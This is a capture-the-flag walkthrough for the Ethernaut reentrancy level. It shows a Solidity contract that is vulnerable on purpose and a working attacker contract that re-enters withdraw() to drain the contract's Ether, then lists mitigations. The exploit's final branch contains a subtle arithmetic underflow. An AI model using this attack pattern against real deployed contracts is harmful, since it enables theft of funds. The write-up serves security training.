 # Hello Ethernaut

## Challenge Description

The goal of this level is for you to steal all the funds from the contract.

 Things that might help:

- Untrusted contracts can execute code where you least expect it.
- Fallback methods
- Throw/revert bubbling
- Sometimes the best way to attack a contract is with another contract.
- See the ["?"](https://ethernaut.openzeppelin.com/help) page above, section "Beyond the console"

## Challenge Code

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import 'openzeppelin-contracts-06/math/SafeMath.sol';

contract Reentrance {
    using SafeMath for uint256;
    mapping(address => uint) public balances;

    function donate(address _to) public payable {
        balances[_to] = balances[_to].add(msg.value);
    }

    function balanceOf(address _who) public view returns (uint balance) {
        return balances[_who];
    }

    function withdraw(uint _amount) public {
        if (balances[msg.sender] >= _amount) {
            (bool result, ) = msg.sender.call{value: _amount}("");
            if (result) {
                _amount;
            }
            balances[msg.sender] -= _amount;
        }
    }

    receive() external payable {}
}
```

## Challenge Solution Walkthrough

In this challenge, the goal is to drain all the funds from the given contract by repeatedly calling the `withdraw()` function and taking advantage of the reentrancy vulnerability.

To achieve this, we can deploy a separate contract, named `ReentranceSolution`, that will interact with the vulnerable contract and repeatedly call the `withdraw()` function. This contract will also handle the reentrancy attack by implementing a `receive()` function.

Here's an example implementation of the `ReentranceSolution` contract:

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.12;

import "./10Reentrancy.sol";

contract ReentranceSolution {
    Reentrance public reentrance;
    uint256 public valueToDonate;
    uint256 public totalValue;

    constructor(address reentranceAddress) public {
        reentrance = Reentrance(payable(reentranceAddress));
    }

    function solveChallenge() public payable {
        valueToDonate = msg.value;
        totalValue = address(reentrance).balance;
        reentrance.donate{value: valueToDonate}(address(this));
        reentrance.withdraw(valueToDonate);
    }

    receive() external payable {
        if (totalValue == 0) {
            return;
        } else if (valueToDonate <= totalValue) {
            totalValue -= valueToDonate;
            reentrance.withdraw(valueToDonate);
        } else if (valueToDonate > totalValue) {
            totalValue -= valueToDonate;
            reentrance.withdraw(totalValue);
        }
    }
}
```

In the `solveChallenge()` function, we first donate a specific amount of money to the vulnerable contract by calling the `donate()` function. Then, we immediately call the `withdraw()` function to start the reentrancy attack.

The `receive()` function is marked as `external payable`, which means it can receive Ether. In this function, we handle the reentrancy attack by repeatedly calling the `withdraw()` function until all the funds are drained. If the total value of the funds in the vulnerable contract (`totalValue`) is greater than or equal to the amount we donated (`valueToDonate`), we call `withdraw(valueToDonate)`. Otherwise, we call `withdraw(totalValue)` to drain the remaining funds.

By executing the `solveChallenge()` function of the `ReentranceSolution` contract, we initiate the reentrancy attack and drain all the funds from the vulnerable contract.

Congratulations! You have successfully completed the challenge.

## Challenge Description After Solving

In order to prevent re-entrancy attacks when moving funds out of your contract, use the [Checks-Effects-Interactions pattern](https://solidity.readthedocs.io/en/develop/security-considerations.html#use-the-checks-effects-interactions-pattern) being aware that `call` will only return false without interrupting the execution flow. Solutions such as [ReentrancyGuard](https://docs.openzeppelin.com/contracts/2.x/api/utils#ReentrancyGuard) or [PullPayment](https://docs.openzeppelin.com/contracts/2.x/api/payment#PullPayment) can also be used.

`transfer` and `send` are no longer recommended solutions as they can potentially break contracts after the Istanbul hard fork [Source 1](https://diligence.consensys.net/blog/2019/09/stop-using-soliditys-transfer-now/) [Source 2](https://forum.openzeppelin.com/t/reentrancy-after-istanbul/1742).

Always assume that the receiver of the funds you are sending can be another contract, not just a regular address. Hence, it can execute code in its payable fallback method and *re-enter* your contract, possibly messing up your state/logic.

Re-entrancy is a common attack. You should always be prepared for it!

 

#### The DAO Hack

The famous DAO hack used reentrancy to extract a huge amount of ether from the victim contract. See [15 lines of code that could have prevented TheDAO Hack](https://blog.openzeppelin.com/15-lines-of-code-that-could-have-prevented-thedao-hack-782499e00942).
